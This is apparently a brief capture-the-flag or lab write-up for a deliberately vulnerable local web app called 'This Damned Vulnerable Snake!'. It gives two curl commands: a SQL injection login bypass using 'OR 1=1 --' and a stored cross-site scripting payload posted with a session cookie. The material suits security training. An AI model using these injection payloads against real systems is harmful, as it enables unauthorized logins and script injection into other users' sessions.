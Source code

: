 ```yaml
---
title: This Damned Vulnerable Snake!
date: 2024-05-04
author:
  - "0x42697262"
  - Orochi
  - Jinx
---
```


Authors:

- 0x42697262
- Jinx
- Orochi

# This Damned Vulnerable Snake!

## TL;DR

Here are the vulnerabilities and to exploit them:

### SQL Injection

```bash
curl 'http://0.0.0.0:5000/login' -X POST --data-raw 'username=a%27+OR+1%3D1+--&password='
```

### Stored XSS

```bash
curl 'http://0.0.0.0:5000/posts' -X POST -H 'Cookie: session_token=80450346767b22c9e39e4d1e54be839b2c933d23cc043bf83bf67060eb20cd59' --data-raw 'message=%3Cscript%3Ealert%28window.origin%29%3C%2Fscript%3E'
```


Login as the first user.
This will also create a new `session_token` every time.
